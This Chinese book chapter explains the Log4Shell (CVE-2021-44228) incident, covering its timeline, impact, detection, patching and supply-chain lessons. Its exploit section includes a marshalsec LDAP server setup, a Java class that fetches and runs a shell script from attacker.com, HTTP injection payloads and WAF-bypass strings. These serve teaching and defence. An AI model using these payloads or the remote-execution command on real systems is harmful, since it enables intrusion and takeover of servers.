


## 3.7 Log4Shell漏洞事件（2021年）

2021年12月，一个藏在Java日志组件中的致命漏洞震动了整个互联网——Apache Log4j2的JNDI注入漏洞（CVE-2021-44228），代号Log4Shell。CVSS评分10.0（满分），影响范围覆盖全球数百万台服务器，从Minecraft游戏服务器到企业级云平台无一幸免。这不是一个复杂的零日攻击，而是一个藏在"日志记录"这个最基础、最不起眼的功能里的设计缺陷。Log4Shell用最残酷的方式证明了：**在软件供应链中，最危险的漏洞往往藏在你以为最安全的地方。**

---

### 3.7.1 Log4j2：你不知道的基础设施

在深入漏洞本身之前，必须理解Log4j2在Java生态中的地位。

**Log4j2是什么？**

Log4j2是Apache基金会维护的Java日志框架，是Log4j 1.x的完全重写版本。它提供了统一的日志API，让Java程序能够以不同级别（DEBUG、INFO、WARN、ERROR、FATAL）记录运行信息。几乎所有Java应用都需要日志功能，而Log4j2是最流行的选择之一。

**为什么它无处不在？**

Log4j2的传播方式是典型的间接依赖。大多数Java开发者不会直接在项目中声明对Log4j2的依赖，而是通过以下路径间接引入：

| 依赖路径 | 示例 |
|---------|------|
| Web框架 | Spring Boot → spring-boot-starter-log4j2 → Log4j2 |
| 大数据 | Apache Struts → Log4j2 |
| 搜索引擎 | Elasticsearch → Log4j2 |
| 消息队列 | Apache Kafka → Log4j2 |
| 云服务 | AWS、Azure、GCP的多种托管服务内置Log4j2 |
| 游戏 | Minecraft Java Edition → Log4j2 |

根据Sonatype的统计，Log4j2被超过35,000个Java包直接或间接依赖，而这些包又被数百万个项目使用。这意味着**超过60%的Java企业应用在漏洞公开时都受到影响**。

**为什么日志框架会执行代码？**

这是Log4Shell最令人震惊的设计决策。Log4j2在设计时加入了一个名为"Lookups"（查找）的功能——当日志消息中包含特定格式的占位符时，Log4j2会在记录日志之前，尝试解析并替换这些占位符。这个功能的设计初衷是方便开发者在日志中嵌入环境变量、系统属性等动态信息，例如：

```java
// 合法使用：在日志中嵌入系统信息
logger.info("Server started on ${env:HOSTNAME} at ${date:yyyy-MM-dd}");
```

然而，Lookups支持的协议列表中包含了JNDI（Java Naming and Directory Interface），而JNDI可以加载远程代码。这就形成了一个致命的组合：**用户可控的输入 → 被写入日志 → 触发JNDI查找 → 远程加载并执行代码。**

---

### 3.7.2 漏洞技术原理深度分析

#### JNDI查找机制

JNDI是Java的标准API，用于访问各种命名和目录服务，包括LDAP、RMI、DNS、CORBA等。当JNDI客户端接收到一个包含远程引用的对象时，它会尝试从远程位置加载对应的Java类并实例化。

Log4j2的Lookup功能在处理日志消息时，会解析`${...}`格式的占位符。支持的Lookup类型包括：

| Lookup类型 | 格式示例 | 说明 |
|-----------|---------|------|
| env | `${env:PATH}` | 读取环境变量 |
| sys | `${sys:java.version}` | 读取系统属性 |
| date | `${date:yyyy-MM-dd}` | 格式化日期 |
| jndi | `${jndi:ldap://...}` | JNDI查找（危险！） |
| lower/upper | `${lower:Hello}` | 大小写转换 |
| env | `${env:PATH:-default}` | 带默认值的环境变量 |

当Log4j2遇到`${jndi:ldap://attacker.com/exploit}`时，处理流程如下：



#### 攻击向量：为什么无处不在

Log4Shell的攻击向量极为广泛，核心原因是**任何能被写入日志的用户可控输入都可以触发漏洞**：

**HTTP请求头注入：**

```http
GET / HTTP/1.1
Host: target.com
User-Agent: ${jndi:ldap://attacker.com/a}
X-Forwarded-For: ${jndi:ldap://attacker.com/a}
Referer: ${jndi:ldap://attacker.com/a}
Accept-Language: ${jndi:ldap://attacker.com/a}
X-Api-Version: ${jndi:ldap://attacker.com/a}
```

**URL路径注入：**

```http
GET /${jndi:ldap://attacker.com/a} HTTP/1.1
```

**表单数据注入：**

```http
POST /login HTTP/1.1
Content-Type: application/x-www-form-urlencoded

username=${jndi:ldap://attacker.com/a}&password=anything
```

**其他注入点包括：**

- 表单字段（用户名、搜索框、评论内容）
- API请求的JSON/XML字段
- 文件名上传
- WebSocket消息
- SMTP邮件头（From、Subject等）
- 客户端证书字段
- DNS查询（某些服务会记录DNS请求）
- SIP协议头（VoIP系统）

一个关键细节是，**漏洞触发不需要应用主动打印用户输入**。许多框架会在拦截器、过滤器、访问日志中间件中自动记录请求信息。例如Apache Struts会自动记录请求参数，Spring Boot的访问日志会记录User-Agent，Nginx反向代理会记录X-Forwarded-For头。

#### 利用链详解

一次完整的Log4Shell攻击通常包含三个阶段：

**阶段一：恶意LDAP服务器搭建**

攻击者需要搭建一个恶意LDAP服务器，返回指向恶意Java类的对象引用。常用的工具包括：

```bash
# 使用marshalsec快速搭建恶意LDAP服务器
git clone https://github.com/mbechler/marshalsec
cd marshalsec
mvn clean package -DskipTests

# 启动LDAP服务器，指向HTTP服务上的恶意类
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar \
  marshalsec.jndi.LDAPRefServer \
  "http://attacker.com:8888/#Exploit" 1389
```

**阶段二：恶意Java类**

攻击者需要编写一个恶意Java类，在被实例化时执行任意命令：

```java
// Exploit.java —— 仅供安全研究理解漏洞原理
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Exploit {
    static {
        try {
            // 执行系统命令
            String[] cmd = {"/bin/bash", "-c", "curl http://attacker.com/shell.sh | bash"};
            Runtime.getRuntime().exec(cmd);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

将编译后的`Exploit.class`放在攻击者的HTTP服务器上，等待目标服务器的JNDI请求。

**阶段三：触发漏洞**

攻击者向目标服务器发送包含JNDI payload的请求：

```bash
curl -H "User-Agent: \${jndi:ldap://attacker.com:1389/a}" \
     http://target.com/
```

当目标服务器记录这个请求的日志时，Log4j2会解析JNDI payload，连接攻击者的LDAP服务器，下载并实例化恶意Java类，从而实现远程代码执行。

#### 编码绕过与WAF对抗

漏洞公开后，大量WAF（Web应用防火墙）开始拦截包含`${jndi:`的请求。攻击者随即发现了多种绕过方式：

**Lookup嵌套绕过：**

```text
${${lower:j}ndi:ldap://attacker.com/a}
${${lower:j}${lower:n}${lower:d}${lower:i}:ldap://attacker.com/a}
${${lower:j}${upper:n}${lower:d}${upper:i}:ldap://attacker.com/a}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attacker.com/a}
```

**Unicode编码绕过：**

```text
${jndi:ldap://attacker.com/\u0061}   // \u0061 = 'a'
```

**嵌套Lookup展开：**

```text
${${env:NaN:-j}ndi${env:NaN:-:}ldap${env:NaN:-:}//attacker.com/a}
${${what:-j}ndi:ldap://attacker.com/a}
${${lower:j}${upper:n}${lower:d}${upper:i}:ldap://attacker.com/a}
```

**进制编码绕过：**

```text
${jndi:ldap://attacker.com/a}  →  基础payload
${jndi:ldap://127.0.0.1:1389/a}  →  使用IP代替域名
${jndi:ldap://0x7f000001:1389/a}  →  十六进制IP
${jndi:ldap://2130706433:1389/a}  →  十进制IP
${jndi:ldap://0177.0.0.1:1389/a}  →  八进制IP
```

这些绕过方式说明了一个根本问题：**基于黑名单的过滤永远无法彻底解决问题**，因为Lookup的解析机制本身就支持嵌套和变量替换。

---

### 3.7.3 完整攻击时间线

| 日期 | 事件 | 关键细节 |
|------|------|---------|
| 2021年11月24日 | 阿里巴巴云安全团队向Apache报告漏洞 | Chen Zhaojun发现并报告 |
| 2021年12月1日 | 漏洞被独立发现并开始利用 | 有证据显示攻击者已开始探测 |
| 2021年12月8日 | 漏洞在社交媒体被讨论 | 早期讨论出现在Twitter和Minecraft论坛 |
| 2021年12月9日 | 漏洞细节全面公开 | CVE-2021-44228发布，PoC广泛传播 |
| 2021年12月10日 | Apache发布Log4j 2.15.0 | 修复版本发布，但修复不完整 |
| 2021年12月11日 | CVE-2021-45046发布 | 发现2.15.0的修复可被绕过 |
| 2021年12月14日 | 发现CVE-2021-45105 | DoS漏洞，2.15.0和2.16.0均受影响 |
| 2021年12月17日 | Apache发布Log4j 2.17.0 | 最终修复版本 |
| 2021年12月28日 | CISA发布紧急指令 | 要求联邦机构在规定时间内修复 |

漏洞从公开到全球大规模利用的时间不到24小时。这种速度在漏洞利用历史上是前所未有的，根本原因在于：漏洞利用门槛极低（一行HTTP头即可触发）、Log4j2部署范围极广、互联网上已存在大量自动化扫描工具。

**攻击波次分析：**

- **第一波（12月9-10日）**：大规模扫描和探测，主要是安全研究人员和脚本小子
- **第二波（12月11-15日）**：专业化攻击者开始利用漏洞进行加密货币挖矿、僵尸网络招募
- **第三波（12月16日以后）**：国家级APT组织和勒索软件团伙开始针对高价值目标定向攻击

---

### 3.7.4 影响范围与真实后果

#### 受影响的著名产品和组织

| 产品/组织 | 影响范围 | 响应措施 |
|-----------|---------|---------|
| Apache Struts | 所有版本 | 发布安全公告 |
| Elasticsearch | 6.x-7.x | 紧急更新 |
| Apache Kafka | 多个组件受影响 | 发布修复版本 |
| Apache Solr | 所有版本 | 紧急更新 |
| Minecraft Java Edition | 服务器和客户端 | 微软紧急补丁 |
| VMware vCenter/Horizon | 多个产品 | 发布安全公告 |
| IBM WebSphere | 多个版本 | 发布修复 |
| Oracle WebLogic | 多个版本 | 发布紧急补丁 |
| AWS Lambda | 多个运行时 | 自动修复 |
| Google Cloud | 多项服务 | 紧急修复 |
| Cloudflare | 基础设施组件 | 内部紧急修复 |
| Twitter | 后端服务 | 紧急修复 |
| Steam (Valve) | 后端服务 | 紧急修复 |
| Apple iCloud | 后端服务 | 紧急修复 |

#### 真实攻击案例

**案例一：比利时国防部**

2021年12月，比利时国防部确认其网络因Log4Shell被入侵。攻击者通过漏洞在比利时军事网络中植入后门，导致国防部被迫关闭部分网络并断开互联网连接。

**案例二：Minecraft服务器大规模攻击**

Minecraft是Log4Shell最早被大规模利用的场景之一。攻击者发现，在Minecraft聊天框中发送包含JNDI payload的消息，服务器的Log4j2日志引擎就会触发漏洞。这意味着**连玩家的一句聊天消息都可以成为攻击武器**。攻击者利用这一特性对大量Minecraft服务器进行批量攻击，植入加密货币挖矿程序。

**案例三：Conti勒索软件团伙**

Conti勒索软件团伙迅速将Log4Shell集成到其攻击工具链中。他们利用Log4Shell作为初始访问向量，入侵VMware vCenter服务器，然后横向移动到目标网络，最终部署勒索软件。这是Log4Shell从漏洞利用到勒索攻击的完整杀伤链。

**案例四：国家级APT利用**

多个国家级APT组织被观察到利用Log4Shell进行间谍活动。据微软报告，至少有Hafnium（与中国关联）、PHOSPHORUS（与伊朗关联）、CERIUM（与朝鲜关联）等APT组织利用此漏洞。这些组织利用Log4Shell作为初始访问手段，然后部署Web Shell、窃取凭据、进行长期潜伏。

#### 经济影响

据Cybersecurity Ventures估计，Log4Shell事件导致的全球经济损失超过100亿美元，包括：
- 企业紧急修复成本（人员加班、系统停机）
- 安全事件响应和取证费用
- 业务中断损失
- 后续供应链安全投入
- 保险索赔和合规罚款

---

### 3.7.5 检测与防御

#### 漏洞检测方法

**方法一：代码依赖扫描**

```bash
# 使用Maven检查项目依赖
mvn dependency:tree | grep log4j

# 使用Gradle检查
./gradlew dependencies | grep log4j

# 使用OWASP Dependency-Check
dependency-check --project "MyProject" --scan ./target/

# 使用Syft生成SBOM
syft dir:. -o json | jq '.artifacts[] | select(.name | contains("log4j"))'
```

**方法二：文件系统搜索**

```bash
# 在JAR/WAR文件中搜索JndiLookup类（存在则说明受影响）
find / -name "*.jar" 2>/dev/null | while read jar; do
  if unzip -l "$jar" 2>/dev/null | grep -q "JndiLookup.class"; then
    echo "VULNERABLE: $jar"
  fi
done

# 使用grep直接搜索
find / -name "log4j-core-*.jar" 2>/dev/null | while read f; do
  version=$(echo "$f" | grep -oP 'log4j-core-\K[0-9.]+')
  echo "$f → version: $version"
done
```

**方法三：运行时检测（Canary Token）**

```bash
# 使用JNDI注入检测服务
# 1. 在Canarytokens.org生成一个唯一的LDAP canary URL
# 2. 向目标发送payload
curl -H "User-Agent: \${jndi:ldap://YOUR_CANARY_TOKEN.canarytokens.com/a}" \
     http://target.com/

# 3. 检查Canarytokens.org是否有回调记录
```

**方法四：网络流量分析**

```bash
# 使用Zeek监控异常LDAP/RMI流量
# 在zeek脚本中检测可疑的JNDI连接

# 检查DNS查询日志中的可疑域名
grep -E "jndi|ldap|rmi" /var/log/dns/queries.log

# 检查防火墙日志中的外部LDAP连接
grep -E "dst_port.*389|dst_port.*1389" /var/log/firewall.log
```

**方法五：WAF规则**

```apache
# ModSecurity规则示例
SecRule REQUEST_HEADERS|REQUEST_URI|ARGS|ARGS_NAMES \
  "@rx (?i)\$\{*jndi" \
  "id:1001,phase:1,log,deny,status:403,msg:'Log4Shell Attack Detected'"

# Nginx规则示例
if ($http_user_agent ~* '\$\{jndi:') {
    return 403;
}
```

#### 漏洞修复方案

**方案一：升级Log4j2版本（推荐）**

```xml
<!-- Maven pom.xml -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.17.1</version> <!-- 或更高版本 -->
</dependency>
```

```groovy
// Gradle build.gradle
implementation 'org.apache.logging.log4j:log4j-core:2.17.1'
```

**方案二：删除JndiLookup类（临时方案）**

```bash
# 从JAR文件中删除JndiLookup类（无需重新编译）
zip -q -d /path/to/log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

# 对于Docker容器
RUN find / -name "log4j-core-*.jar" -exec \
    zip -q -d {} org/apache/logging/log4j/core/lookup/JndiLookup.class \;
```

**方案三：设置系统属性（临时缓解）**

```bash
# Log4j 2.10+ 可通过系统属性禁用Lookup
-Dlog4j2.formatMsgNoLookups=true

# 也可以通过环境变量设置
LOG4J_FORMAT_MSG_NO_LOOKUPS=true
```

> **注意**：`formatMsgNoLookups=true`仅对2.10及以上版本有效，且在某些场景下可以被绕过（CVE-2021-45046证明了这一点）。**最可靠的修复方案是升级到2.17.0或更高版本。**

**方案四：网络层防御**

```bash
# 限制应用服务器的外连能力
# 防火墙规则：禁止应用服务器主动连接外部LDAP/RMI
iptables -A OUTPUT -p tcp --dport 389 -j DROP
iptables -A OUTPUT -p tcp --dport 636 -j DROP
iptables -A OUTPUT -p tcp --dport 1099 -j DROP
iptables -A OUTPUT -p tcp --dport 1389 -j DROP

# 仅允许白名单域名的外连
iptables -A OUTPUT -p tcp -d trusted-server.com --dport 443 -j ACCEPT
iptables -A OUTPUT -p tcp --dport 443 -j DROP
```

#### 纵深防御策略



---

### 3.7.6 关联CVE：修复之路的曲折

Log4Shell的修复过程本身就是一部跌宕起伏的戏剧。Apache团队在巨大的压力下连续发布了多个版本，但每次修复都被发现不够彻底：

| CVE编号 | CVSS | 受影响版本 | 问题描述 | 修复版本 |
|---------|------|-----------|---------|---------|
| CVE-2021-44228 | 10.0 | 2.0-beta9 ~ 2.14.1 | JNDI注入导致RCE | 2.15.0 |
| CVE-2021-45046 | 9.0 | 2.0-beta9 ~ 2.15.0 | 2.15.0修复不完整，某些配置下仍可RCE | 2.16.0 |
| CVE-2021-45105 | 7.5 | 2.0-beta9 ~ 2.16.0 | 递归Lookup导致DoS（无限循环） | 2.17.0 |
| CVE-2021-44832 | 6.6 | 2.0-beta7 ~ 2.17.0 | 通过JDBC Appender配置实现RCE | 2.17.1 |

这个过程揭示了一个深刻的教训：**在面对根本性的设计缺陷时，补丁式修复往往是不够的。** CVE-2021-45046证明了"禁用JNDI Lookup"的策略在特定条件下可以被绕过，最终Apache不得不在2.16.0中完全移除了JNDI Lookup的支持，而不是仅仅禁用它。

---

### 3.7.7 文化与伦理启示

Log4Shell不仅仅是一个技术事件，它引发了关于开源软件生态、软件供应链安全和数字基础设施治理的深刻反思。

#### 开源维护者的困境

Log4j2的核心维护工作长期由少数志愿者承担。漏洞公开后，这些维护者面临着：
- 来自全球企业的紧急修复压力
- 媒体和公众的批评（"为什么这么低级的漏洞会存在"）
- 心理健康问题（持续的网络骚扰和指责）

Log4j2的维护者之一Ralph Goers在事后表示，他已经多年没有从Log4j2项目中获得任何报酬，而这次事件让他承受了巨大的心理压力。这暴露了一个根本矛盾：**全球最关键的数字基础设施，往往由没有资源、没有报酬、没有组织支持的志愿者维护。**

#### 供应链安全的系统性危机

Log4Shell揭示了软件供应链的三层脆弱性：

1. **传递性依赖**：大多数受影响的应用从未直接声明对Log4j2的依赖，而是通过第三方库间接引入。开发者甚至不知道自己的应用在使用Log4j2。
2. **信任传递**：开发者信任框架（如Spring），框架信任日志库（如Log4j2），日志库信任JNDI协议——任何一环的设计缺陷都会波及整个链条。
3. **修复传播困难**：即使Log4j2发布了修复版本，由于传递性依赖的存在，下游应用需要等待其直接依赖的库更新Log4j2版本，才能真正修复漏洞。

#### 企业对开源的责任

事件后，美国白宫于2022年1月召集了亚马逊、苹果、谷歌、微软、Meta等科技巨头，讨论开源软件安全问题。会议推动了以下措施：
- 联邦政府要求关键软件提供SBOM（软件物料清单）
- OpenSSF（开源安全基金会）获得大量资金支持
- 各企业承诺增加对关键开源项目的投入

#### 漏洞信息披露的伦理争议

一个值得讨论的问题是：阿里巴巴云安全团队在11月24日就报告了漏洞，但到12月9日漏洞被公开时，Apache仍未发布修复版本。漏洞在修复可用之前就被泄露，直接导致了大规模0day攻击。这引发了关于"负责任的漏洞披露"标准的讨论：在修复时间过长的情况下，提前公开是否合理？

---

### 3.7.8 对渗透测试与红队的启示

Log4Shell为安全从业者提供了几个重要启示：

**攻击视角的启示：**

- **低门槛高影响**：Log4Shell证明了最危险的漏洞不一定需要复杂的利用技术，一个设计缺陷就能造成灾难性后果。
- **供应链是新战场**：攻击者不需要直接攻击目标，只需要找到其依赖链中的薄弱环节。
- **日志即攻击面**：任何用户可控的输入被记录到日志中，都可能成为攻击向量。这个思维模型可以推广到其他场景。

**防御视角的启示：**

- **SBOM是基础**：你无法保护你不知道的东西。每个组织都需要建立软件物料清单，了解自己的依赖关系。
- **默认最小权限**：Log4j2默认启用了JNDI Lookup，而大多数应用根本不需要这个功能。"默认不安全"的设计是罪魁祸首。
- **网络隔离有效**：限制应用服务器的外连能力（白名单模式）可以在漏洞修复前提供有效的缓解。
- **纵深防御必要**：任何单一的安全措施都可能被绕过。升级版本、删除危险类、网络隔离、WAF规则——多层防御组合才能提供可靠保护。

**给安全研究者的建议：**

在研究类似漏洞时，关注以下模式：
1. 具有"解析用户输入"功能的库（日志框架、模板引擎、序列化库）
2. 默认启用危险功能的设计（JNDI Lookup、OGNL表达式、SpEL表达式）
3. 广泛使用的基础设施组件（传递性依赖深度超过3层的库）
4. 历史上存在过类似漏洞的组件（如Log4j 1.x的JDBC Appender）

---

### 3.7.9 总结

Log4Shell是21世纪最具影响力的网络安全事件之一。它不是由复杂的零日利用技术或精密的社会工程学导致的，而是源于一个日志框架中"默认启用危险功能"的设计决策。这个看似微小的缺陷，通过软件供应链的传递效应，被放大成了影响全球数字基础设施的安全灾难。

这一事件给我们留下的遗产是深远的：
- **技术层面**：催生了SBOM标准、推动了依赖安全扫描的普及
- **组织层面**：促使OpenSSF等组织成立、科技巨头增加对开源安全的投入
- **政策层面**：推动了美国等国家的开源软件安全立法
- **文化层面**：迫使整个行业重新审视"开源免费即无责任"的思维

对于黑客文化的理解而言，Log4Shell是一个完美的案例——它证明了在万物互联的时代，一个埋藏在基础组件中的缺陷，可以让整个互联网在24小时内陷入恐慌。这也正是安全研究的意义所在：**不是为了破坏，而是为了在破坏发生之前，发现并修复那些隐藏在深处的裂缝。**
